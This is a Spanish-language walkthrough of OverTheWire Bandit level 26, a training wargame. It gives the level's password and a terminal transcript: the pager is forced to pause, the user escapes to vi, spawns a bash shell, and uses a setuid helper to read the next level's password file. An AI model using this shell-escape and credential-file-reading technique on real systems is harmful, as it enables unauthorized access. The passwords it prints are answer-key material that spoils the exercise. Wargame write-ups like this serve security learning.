 ## Objetivo
Good job getting a shell! Now hurry and grab the password for bandit27!

## Datos Acceso
bandit26 
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1

## Solución
```
_ _ _ _ ___ __
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \
--More--(66%)
v
_ _ _ _ ___ __
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \
| |_) | (_| | | | | (_| | | |_ / /| (_) |
"~/text.txt" [readonly] 6L, 258B
:set shell=/bin/bash
:shell
[No write since last change]
bandit26@bandit:~$ bandit26@bandit:~$ ls
bandit27-do text.txt
bandit26@bandit:~$ ./bandit27-do id
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26)
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
bandit26@bandit:~$
bandit26@bandit:~$ exit
:qa!
q
```

## Notas Adicionales
Intento entrar al 26 y directamente me saca

Es con el mismo truco que en el nivel 25 - 26
Hacer pequeña la pantalla para que se quede en more

El único problema es que estamos en bandit26 y necesitamos ser bandit27.

* **esc : qa! para salir del vi**

v nos va a meter al editor
nos salimos a la línea de comando

En lugar de editar un archivo, voy a asignar a shell el valor de bin bash



## Referencias
